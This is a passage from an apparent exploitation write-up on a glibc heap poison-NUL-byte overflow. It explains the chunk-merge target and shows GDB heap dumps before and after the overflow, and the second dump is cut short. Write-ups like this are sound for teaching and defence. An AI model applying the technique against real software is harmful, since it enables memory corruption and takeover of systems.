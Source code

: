 In our exploit, we don't have a heap leak, so our merge target is a real chunk, which saves us the extra steps of having to craft a fake chunk.

In GDB, this is what the heap looks like right before we trigger the NULL byte overflow: 
{% highlight bash %}
gdb-peda$ x/100xg 0x00603000
0x603000:       0x0000000000000000      0x0000000000000091 
0x603010:       0x00007ffff7dd1b78      0x00007ffff7dd1b78 <--A (free)
0x603020:       0x4141414141414141      0x4141414141414141
0x603030:       0x4141414141414141      0x4141414141414141
0x603040:       0x4141414141414141      0x4141414141414141
0x603050:       0x4141414141414141      0x4141414141414141
0x603060:       0x4141414141414141      0x4141414141414141
0x603070:       0x4141414141414141      0x4141414141414141
0x603080:       0x4141414141414141      0x4141414141414141
0x603090:       0x0000000000000090      0x0000000000000090
0x6030a0:       0x4242424242424242      0x4242424242424242 <--B
0x6030b0:       0x4242424242424242      0x4242424242424242
0x6030c0:       0x4242424242424242      0x4242424242424242
0x6030d0:       0x4242424242424242      0x4242424242424242
0x6030e0:       0x4242424242424242      0x4242424242424242
0x6030f0:       0x4242424242424242      0x4242424242424242
0x603100:       0x4242424242424242      0x4242424242424242
0x603110:       0x4242424242424242      0x4242424242424242
0x603120:       0x0000000000000000      0x0000000000000101
0x603130:       0x4343434343434343      0x4343434343434343 <--C
0x603140:       0x4343434343434343      0x4343434343434343
0x603150:       0x4343434343434343      0x4343434343434343
0x603160:       0x4343434343434343      0x4343434343434343
0x603170:       0x4343434343434343      0x4343434343434343
0x603180:       0x4343434343434343      0x4343434343434343
0x603190:       0x4343434343434343      0x4343434343434343
0x6031a0:       0x4343434343434343      0x4343434343434343
0x6031b0:       0x4343434343434343      0x4343434343434343
0x6031c0:       0x4343434343434343      0x4343434343434343
0x6031d0:       0x4343434343434343      0x4343434343434343
0x6031e0:       0x4343434343434343      0x4343434343434343
0x6031f0:       0x4343434343434343      0x4343434343434343
0x603200:       0x4343434343434343      0x4343434343434343
0x603210:       0x4343434343434343      0x0043434343434343
0x603220:       0x0000000000000000      0x0000000000020de1 <--top chunk
{% endhighlight %}

After inserting the poisoned NUL byte and crafting the fake prev_size, the heap looks like this:
{% highlight bash %}
gdb-peda$ x/100xg 0x00603000
0x603000:       0x0000000000000000      0x0000000000000091
0x603010:       0x00007ffff7dd1b78      0x00007ffff7dd1b78 <--A (free)
0x603020:       0x4141414141414141      0x4141414141414141
0x603030:       0x4141414141414141      0x4141414141414141
0x603040:       0x4141414141414141      0x4141414141414141
0x603050:       0x4141414141414141      0x4141414141414141
0x603060:       0x4141414141414141      0x4141414141414141
0x603070:       0x4141414141414141      0x4141414141414141
0x603080:       0x4141414141414141      0x4141414141414141
0x603090:       0x0000000000000090      0x0000000000000090
0x6030a0:       0x4242424242424242      0x4242424242424242 <--B
0x6030b0:       0x4242424242424242      0x4242424242424242
0x6030c0:       0x4242424242424242      0x4242424242424242
0x6030d0:       0x4242424242424242      0x4242424242424242
0x6030e0:       0x4242424242424242      0x4242424242424242
0x6030f0:       0x4242424242424242      0x4242424242424242
0x603100:       0x4242424242424242      0x4242424242424242
0x603110:       0x4242424242424242      0x4242424242424242